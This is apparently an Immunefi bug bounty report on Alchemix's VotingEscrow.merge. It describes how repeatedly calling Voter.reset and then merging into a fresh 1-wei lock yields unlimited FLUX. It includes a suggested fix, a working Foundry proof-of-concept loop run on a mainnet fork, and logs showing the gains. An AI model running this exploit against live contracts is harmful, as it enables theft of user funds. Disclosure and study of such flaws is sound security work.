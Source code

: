
# `VotingEscrow.merge` does not check whether the `_from` $veToken has voted causing it can be exploited to receive $FLUX unlimitedly

Submitted on May 14th 2024 at 20:31:50 UTC by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31198

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

The `VotingEscrow.merge` interface can merge two $veToken. It checks `voted[_from]` to ensure that `_from` $veToken has not voted in the current epoch. However, this check is not comprehensive enough because the user can call `Voter.reset` to claim $FLUX without setting `voted[_from]` to `true`.

## Vulnerability Details

Please see the following code. Users can call `Voter.reset` to receive $FLUX. This interface will call `VotingEscrow.abstain` to set `voted[_tokenId]` to `false`. Moreover, the `onlyNewEpoch` modifier limits each `_tokenId` to only call the interface once per epoch. Next we use `VotingEscrow.merge` to bypass this limit.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L183-L192
    function reset(uint256 _tokenId) public onlyNewEpoch(_tokenId) {
        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        lastVoted[_tokenId] = block.timestamp;
        _reset(_tokenId);
        IVotingEscrow(veALCX).abstain(_tokenId);
        IFluxToken(FLUX).accrueFlux(_tokenId);
    }
```

Please look at the following code. The `VotingEscrow.merge` interface can merge two $veToken into one. It only checks `voted[_from]` but not `voter.lastVoted(_from)`. In other words, we first call `Voter.reset(_from)` and then merge `_from` $veToken into another $veToken to continue receiving $FLUX.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618-L622
    function merge(uint256 _from, uint256 _to) external {
        require(!voted[_from], "voting in progress for token");
        require(_from != _to, "must be different tokens");
        require(_isApprovedOrOwner(msg.sender, _from), "not approved or owner");
        require(_isApprovedOrOwner(msg.sender, _to), "not approved or owner");
```

This is a brief description of the attack. Please see the PoC code for details.

1. The attacker owns $veTokenA and calls `Voter.reset` on $veTokenA. The attacker will receive $FLUX once
2. The attacker creates a new $veTokenTemp worth `1` wei of $BPT. `1` wei $BPT cost is `~0`
3. The attacker merges $veTokenA into $veTokenTemp
4. Now treat $veTokenTemp as $veTokenA and go back to the step1

Repeat the above steps to receive unlimited $FLUX

**Suggested fix**

Check whether the `_from` $veToken has voted

```diff
    function merge(uint256 _from, uint256 _to) external {
+       require((block.timestamp / DURATION) * DURATION > IVoter(voter).lastVoted(_from));
        require(!voted[_from], "voting in progress for token");
        require(_from != _to, "must be different tokens");
        require(_isApprovedOrOwner(msg.sender, _from), "not approved or owner");
        require(_isApprovedOrOwner(msg.sender, _to), "not approved or owner");
```

## Impact Details

Attackers can receive unlimited $FLUX unlimitedly

## References

None


## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/VotingEscrow.t.sol b/src/test/VotingEscrow.t.sol
index 6e828a3..cfb35e6 100644
--- a/src/test/VotingEscrow.t.sol
+++ b/src/test/VotingEscrow.t.sol
@@ -1015,4 +1015,43 @@ contract VotingEscrowTest is BaseTest {
 
         hevm.stopPrank();
     }
+
+    function testYttriumzzPocTemp() public {
+        hevm.startPrank(admin);
+
+        uint256 tokenId = veALCX.createLock(1e18, 0, true);
+
+        console.log(">>>>> before steal");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        for (uint256 i = 0; i < 50; i++) {
+            voter.reset(tokenId);
+            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId, tokenIdTemp);
+            tokenId = tokenIdTemp;
+        }
+        
+        console.log(">>>>> after steal 50 times");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        for (uint256 i = 0; i < 100; i++) {
+            voter.reset(tokenId);
+            flux.claimFlux(tokenId, flux.getUnclaimedFlux(tokenId));
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId, tokenIdTemp);
+            tokenId = tokenIdTemp;
+        }
+        
+        console.log(">>>>> after steal 150 times");
+        console.log(">> IERC20(bpt).balanceOf(admin): %s", IERC20(bpt).balanceOf(admin));
+        console.log(">> flux.balanceOf(admin): %s", flux.balanceOf(admin));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testYttriumzzPocTemp() (gas: 114711590)
Logs:
  >>>>> before steal
  >> IERC20(bpt).balanceOf(admin): 99999999000000000000000000
  >> flux.balanceOf(admin): 0
  
  >>>>> after steal 50 times
  >> IERC20(bpt).balanceOf(admin): 99999998999999999999999950
  >> flux.balanceOf(admin): 49862958206078108850
  
  >>>>> after steal 150 times
  >> IERC20(bpt).balanceOf(admin): 99999998999999999999999850
  >> flux.balanceOf(admin): 149588874618234326550
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 417.75ms (402.92ms CPU time)

Ran 1 test suite in 1.73s (417.75ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

